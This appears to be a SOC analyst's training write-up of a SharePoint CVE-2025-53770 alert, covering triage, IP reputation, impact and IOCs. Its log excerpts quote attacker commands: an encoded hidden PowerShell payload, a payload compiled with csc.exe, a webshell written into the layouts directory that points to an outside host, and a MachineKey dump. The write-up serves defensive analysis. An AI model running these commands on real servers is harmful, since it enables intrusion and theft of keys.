





### <span class="hl">Alert</span>
```
EventID: 320
Severity: Critical
Event Time: Jul, 22, 2025, 01:07 PM
Rule: SOC342 - CVE-2025-53770 SharePoint ToolShell Auth Bypass and RCE
Level: Security Analyst
Hostname: SharePoint01
Source IP Address: 107.191.58.76
Destination IP Address: 172.16.20.17
HTTP Request Method: POST
Requested URL: /_layouts/15/ToolPane.aspx?DisplayMode=Edit&a=/ToolPane.aspx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Referer: /_layouts/SignOut.aspx
Content-Length: 7699
Alert Trigger Reason: Suspicious unauthenticated POST request targeting ToolPane.aspx with large payload size and spoofed referer indicative of CVE-2025-53770 exploitation.
Device Action: Allowed
```

### <span style="color:red">CVE-2025-53770</span>

CVE-2025-53770 is a critical vulnerability in Microsoft SharePoint Server caused by unsafe deserialization of .NET objects. It allows an unauthenticated attacker with network access to upload a serialized .NET object to the server and achieve remote code execution without any credentials.

### <span style="color:red">Identification</span>

#### <span class="hl">Is the traffic coming from outside?</span>
The source IP `107.191.58.76` is an external address. Traffic direction is **Internet to Company Network**. 

Shodan identifies the IP as belonging to **Vultr Holdings, LLC** (AS20473, Los Angeles, California). The hostname resolves **to 107.191.58.76.vultrusercontent.com**

#### <span class="hl">Is the source malicious?</span>

AbuseIPDB shows the IP has been reported **26 times**, with a 0% Confidence of Abuse score. Despite the low confidence, the VPS hosting context and report history are consistent with attacker-controlled infrastructure.



VirusTotal flagged the IP as malicious by 10/94 vendors



#### <span class="hl">What type of attack was attempted?</span>

Reviewing the proxy log, a single POST request was sent from 107.191.58.76:25332 to 172.16.20.17:443 at **13:07 PM** targeting `/_layouts/15/ToolPane.aspx`. The request carried a 7699 byte body and used a spoofed `Referer: /_layouts/SignOut.aspx` - a characteristic of CVE-2025-53770 exploitation.



#### <span class="hl">Did anyone else get targeted?</span>

Log review shows all malicious activity targeted exclusively 172.16.20.17` (SharePoint01). **No other internal hosts were involved.**

#### <span class="hl">Did the attack succeed?</span>

Yes. The endpoint terminal history confirms full RCE was achieved immediately after the exploit request:


```
Jul 22 2025 13:07:24
powershell.exe -nop -w hidden -e PCVAIEltcG9ydC...
```

The base64-encoded payload decodes to an ASPX page that uses reflection to invoke `MachineKeySection.GetApplicationConfig()` and write the server's `ValidationKey`, `DecryptionKey`, and related fields to the HTTP response.
```
Jul 22 2025 13:07:27
csc.exe /out:C:\Windows\Temp\payload.exe C:\Windows\Temp\payload.cs
```

The C# compiler was invoked to compile a custom payload from`payload.cs into **C:\Windows\Temp\payload.exe**.
```
Jul 22 2025 13:07:29
cmd.exe /c echo <form runat="server"><object classid="clsid:ADB880A6-D8FF-11CF-9377-00AA003B7A11">
<param name="Command" value="Redirect"><param name="Button" value="Test">
<param name="Url" value="http://107.191.58.76/payload.exe"></object></form>
> C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx
```

A webshell (spinstall0.aspx) was written directly into the SharePoint layouts directory. The webshell contains an ActiveX object that redirects to `http://107.191.58.76/payload.exe`, enabling the attacker to trigger payload download.
```
Jul 22 2025 13:07:34
powershell.exe -Command "[System.Web.Configuration.MachineKeySection]::GetApplicationConfig()"
```

At **13:08:04** the SharePoint01 endpoint initiated an outbound connection to **107.191.58.76** - successful reverse callback or payload download.

### <span style="color:red">Triage Decision</span>

#### <span class="hl">What is the impact level?</span>

The attack fully succeeded. The attacker achieved unauthenticated RCE on SharePoint01, extracted the server's MachineKey, compiled and staged a malicious executable, planted a persistent webshell at a publicly accessible path, and established an active outbound connection to the attacker's C2 at `107.191.58.76`. The endpoint is fully compromised. **Escalated to Tier 2.**

### <span style="color:red">Containment</span>

#### <span class="hl">Is the attacker still active?</span>
Source IP **107.191.58.76** need to be blocked at the WAF and firewall
#### <span class="hl">Is the vulnerable endpoint still exposed?</span>
The /_layouts/15/ToolPane.aspx endpoint need to be disabled and patched

### <span class="hl">IOCs</span>

| Type | Value | Source |
|------|-------|--------|
| IP | 107.191.58[.]76 | Proxy / firewall logs |
| Domain | vultrusercontent[.]com | Shodan |
| URL | hxxps://172.16.20[.]17/_layouts/15/ToolPane.aspx?DisplayMode=Edit&a=/ToolPane.aspx | Proxy log |
| URL | hxxp://107.191.58[.]76/payload.exe | Webshell content |
| File | spinstall0.aspx | SharePoint layouts directory |
| File | C:\Windows\Temp\payload.exe |  |
| File | C:\Windows\Temp\payload.cs |  |
